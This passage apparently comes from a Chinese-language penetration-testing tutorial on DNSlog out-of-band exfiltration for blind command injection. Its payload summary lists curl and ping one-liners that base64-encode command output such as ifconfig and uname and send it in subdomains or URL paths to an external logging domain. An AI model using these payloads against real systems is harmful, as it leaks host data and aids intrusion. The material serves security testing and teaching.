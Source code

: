 测试效果如下图:

![command_first](img/docker+dnslog/command_first.png)



**消除空格(Linux下)**

```bash
id|base64 #使用base64对执行的结果进行编码

使用实例：
curl test.0v0.com/`ifconfig|base64 -w 0` 
#-w 0 输出内容不换行，推荐这个方法

curl test.0v0.com/`ifconfig |base64 |tr -d '\n'`
#相同的效果
```

![base64](img/docker+dnslog/base64.png)

**window下的curl**

```bash
start http://%OS%.test.0v0.com
#该命令的作用是通过默认浏览器打开网站，缺点是会打开窗口
```



### 0x5、常用payload汇总



```bash
#1.判断系统类型(windows\linux通用)
ping `uname`.0v0.com || ping %OS%.0v0.com

#2.ping，dns类型payload(windows\linux通用)
ping -nc 3 xxx.0v0.com

======================================Linux分割线=====================================

#3.从DNS记录中获取源IP地址
ping -c 3 `ifconfig en0|grep "inet "|awk '{print $2}'`.test.0v0.com

#4.获取命令结果
curl test.0v0.com/`ifconfig|base64 -w 0`

#5.当频繁请求时，如果使用固定的域名，服务器可能不会发起请求，而是使用缓存，也就是说我们的某次请求将有可能收不到DNS请求。
#下面这个payload可以提供变化的子域名,保证每次都能真正发起DNS请求。
ping -c 3 `date +%H-%M-%S`.test.0y0.link

```

### 0x6、对DNSlog的改造

